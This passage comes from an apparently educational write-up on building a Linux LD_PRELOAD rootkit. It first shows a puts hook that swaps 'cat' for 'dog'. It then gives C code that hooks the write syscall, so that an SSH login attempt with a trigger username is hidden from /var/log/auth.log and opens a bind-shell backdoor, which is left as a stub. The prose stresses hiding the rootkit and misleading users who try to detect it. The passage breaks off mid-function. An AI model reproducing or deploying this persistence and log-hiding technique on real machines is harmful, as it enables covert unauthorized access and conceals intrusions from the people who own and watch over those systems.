 Since our library is loaded before libc, any program calling `printf`, and by extension `puts`, will actually be calling our `puts` function. This means that any program on the entire system that wants to print "cat" to stdout, will actually end up printing "dog" instead. Critically, however, any call to puts that isn't literally printing "cat" is left completely untouched.

While this example is relatively innocuous, it gives us a glimpse into the potential host of features we could develop. Not only can it be used to arbitrarily execute code, but it can also be used to cover up evidence of the rootkit entirely as we can control exactly what the operating system is telling the user. The user could be attempting to detect the rootkit and the OS could be screaming for help, but we can easily redirect those calls for help into the void, leading the user into a false sense of security.

> Note that this program will only replace **exactly** the message "cat" with the message "dog". If someone writes "I like cats", it will still print "I like cats" since `strcmp` checks for an exact match with "cat". Qualities like this are actually rather important when it comes to designing a rootkit since all the global `puts` traffic will be routed through your function, and the vast majority of traffic shouldn't trigger your rootkit features to preserve discretion.

#### Trigger Mechanism

For our rootkits, the goal was to gain persistent access to a machine. To achieve this, you need to open some sort of backdoor shell on command. This requires a built-in trigger mechanism to open a shell.

In our case, we are looking to attack a Linux machine that presumably has SSH installed. While there are many ways of implementing this, we again took *heavy* inspiration from the aforementioned blog post. Specifically, the ssh feature we aimed to exploit was the logging mechanism.

Every time that a user attempts to connect to a machine on ssh, the ssh daemon logs the attempt along with the username and some other information to `/var/log/auth.log`. Critically this information is logged whether the attempt is successful or not and the SSH daemon uses the `write` system call to write to the file.

We can leverage this feature and hook the write system call to trigger a shell when a user attempts to log in with a specific username. This is great as it will only trigger if a user attempts to log in with a trigger username. In all other cases SSH will function normally.

Here is the code for the trigger.

```c
#define TRIGGER_USERNAME "joebruin"

void start_bind4()
{
	/* Filled in with bind shell code later on */
}

/* Function definition matching that of the write syscall */
ssize_t write(int fildes, const void *buf, size_t nbytes) {
	ssize_t (*real_write) (int fildes, const void *buf, size_t nbytes);
	ssize_t result;

	real_write = dlsym(RTLD_NEXT, "write");

	/* Continue normally if message doesn't contain trigger */
	if (strstr(buf, TRIGGER_USERNAME) == NULL) {
		return real_write(fildes, buf, nbytes);
	}

	/* write original bytes to /dev/null to hide output from log */
	fildes = open("/dev/null", O_WRONLY | O_APPEND);
	result = real_write(fildes, buf, nbytes);

	/* Open the bind shell backdoor */
	start_bind4();

	return result;
```